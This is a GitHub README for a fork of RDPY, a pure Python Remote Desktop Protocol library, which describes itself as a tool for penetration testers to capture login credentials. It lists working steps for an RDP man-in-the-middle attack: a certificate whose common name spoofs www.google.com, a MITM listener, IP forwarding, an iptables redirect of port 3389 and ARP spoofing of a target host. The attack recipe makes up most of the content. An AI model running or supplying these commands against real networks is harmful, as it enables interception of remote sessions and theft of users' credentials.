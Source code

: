 # RDPY [![Build Status](https://travis-ci.org/citronneur/rdpy.svg?branch=dev)](https://travis-ci.org/citronneur/rdpy) [![PyPI version](https://badge.fury.io/py/rdpy.png)](http://badge.fury.io/py/rdpy)

Remote Desktop Protocol in twisted python.

RDPY is a pure Python implementation of the Microsoft RDP (Remote Desktop Protocol) protocol (client and server side). RDPY is built over the event driven network engine Twisted. RDPY support standard RDP security layer, RDP over SSL and NLA authentication (through ntlmv2 authentication protocol).
  
This is a branch from the original version of RDPY. It is meant to be used by  penetration testers to capture login credentials in an internal penetration test.   
This is still a work in progress
    
Basic steps for using rdpy-rdpmitm.py  
```  
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout mysitename.key -out mysitename.crt -subj '/C=US/ST=Oregon/L=Portland/CN=www.google.com’
rdpy-rdpmitm.py -o /tmp -l 3390 -k mysitename.key -c mysitename.crt -r x.x.x.x:3389
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 3389 -j REDIRECT --to-port 3390
arpspoof -i eth0 -t 172.16.173.132 162.16.173.2 
```
